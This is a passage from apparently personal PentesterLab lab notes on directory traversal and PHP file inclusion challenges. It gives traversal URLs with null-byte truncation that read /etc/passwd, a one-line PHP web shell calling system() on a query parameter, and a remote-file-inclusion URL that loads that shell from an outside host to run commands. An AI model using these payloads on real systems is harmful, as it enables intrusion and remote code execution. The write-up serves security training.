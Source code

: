 Here, the server is adding a suffix/file-extension to the URL, which would turn our request for `/file.php?file=../../../../etc/passwd` into `/file.php?file=../../../etc/passwd.png` or something similar.

To get around this, we can add a URL-encoded NULL-BYTE (`%00`) to drop everything that comes after it. If we change the URL to `/file.php?file=../../../../pentesterlab.key%00` we can successfully retrieve the key for this challenge

### Essential 27// File Include 01
[Challenge URL](https://pentesterlab.com/exercises/fileinc_01/course)

This challenge we're exploiting a File Include vuln in a `php` application. File Include vulns arise from a lack of filtering, particularly when user-controlled input is used as part of a file name in a call to a function that loads another resource. In `php`, `require, require_once, inlclude, and include_once` are common examples. This functions are used to load a either a file local to the server, or a file hosted remotely on another server, i.e. loading a common css or font file. If the input is not properly validated however, we can use these functions for directory traversal, or to load our own malicious scripts. 

By default, `php` disables loading remote files, but it's been enabled in this instance to demonstrate it. Starting from the challenge base URL, `libcurl.so/?page=intro.php`, if we put in a single-quote or double-quote, we get a very informative Warning about `include(intro.php")` not being found in `/var/www/index.php` and the `include_path='.:/usr/share/php:/usr/share/pear'`. This shows us the server is taking the filename from the `page=` parameter and searching for it somewhere in the `include_path`. We can change the URL to be `page=/etc/passwd`, and the page will return the contents of the local file.

To test for Remote File Inclusion, we're provided a short `php` script that returns the content of `phpinfo()` when ran. To do so, change the URL to `page=http://assets.pentesterlab.com/test_include.txt`, which would also allow us to load our own malicious script hosted just about anywhere. We're also given another script to allow us to execute arbitrary commands at using the URL `http://assets.pentesterlab.com/test_include_system.txt`, the contents of which are
```php
<?php 
  system($_GET['c']);
?>
```
By adding `&c=` to the end of the URL, we can specify the command for the script to run. Because the challenge instance is already using a question mark in `/?page=` to specify a parameter, we'll need to use the ampersand `&` for our commands.

To score the challenge using the provided script, we'll use a URL of `libcurl.so/?page=http://assets.pentesterlab.com/test_include_system.txt&c=/usr/local/bin/score UUID`

### Essential 28// File Include 02
[Challenge URL](https://pentesterlab.com/exercises/fileinc_02/course)

NOTE: The behavior in this challenge is only naturally present in older installations of `PHP`, and was patched in `PHP Ver 5.3.4`.

This challenge is very similar to the previous one, however this time the server is adding a prefix to the URL on the backend. Like with [EssentialBadge#Essential 26 Directory Traversal 03|Directory Traversal 03]({% link notes/EssentialBadge.md%}), we can use a URL-encoded NULL-byte (`%00`) for a *local* file inclusion (LFI), or for a *remote* file inclusion (RFI), we can add a dummy parameter to the end of the URL using `&lol=` or `?lmao=` depending on how our initial URL is structured. 
